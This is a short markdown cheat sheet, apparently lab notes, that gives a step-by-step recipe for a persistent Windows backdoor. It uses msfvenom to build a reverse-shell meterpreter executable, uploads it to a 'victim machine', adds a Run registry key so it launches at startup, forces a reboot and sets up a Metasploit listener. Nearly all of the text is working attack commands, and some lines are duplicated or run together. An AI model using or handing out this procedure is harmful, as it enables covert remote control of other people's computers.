


backdoor with registry key
1. create a backdoor with msfvenom:
root@kali:/home/kali# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.122 LPORT=2345 -f exe -o /home/kali/Desktop/exploit.exe
2. upload into the victim machine
meterpreter > pwd
meterpreter > upload /home/kali/Desktop/exploit.exe .
meterpreter > upload /home/kali/Desktop/exploit.exe .

3. Edit the registry key with the reg command
reg setval -k [registry_key_path] -d [value_of_the key] -v [name_of_the_key]meterpreter > reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -d "C:\Users\danie\Desktop\exploit.exe" -v exploit_daniele_<3

4. Restart the remote Windows machine to make effective the backdoor
msf > sessions -i <Id-session>
meterpreter > shell
C:\Users\danie\Desktop> shutdown /r /f
meterpreter > shell
C:\Users\danie\Desktop> shutdown /r /f

5. come back to metasploit and check if there are working listeners
jobs -lshow option
if not we have to create a listener on metasploit
use exploit/multi/handler
set lhost <lhost>
set lport <lport>
set payload <same-payload-placed-in-the-victim-machine>
run
set lhost <lhost>
set lport <lport>
set payload <same-payload-placed-in-the-victim-machine>
run
6. press ENTER and interact with the backdoor session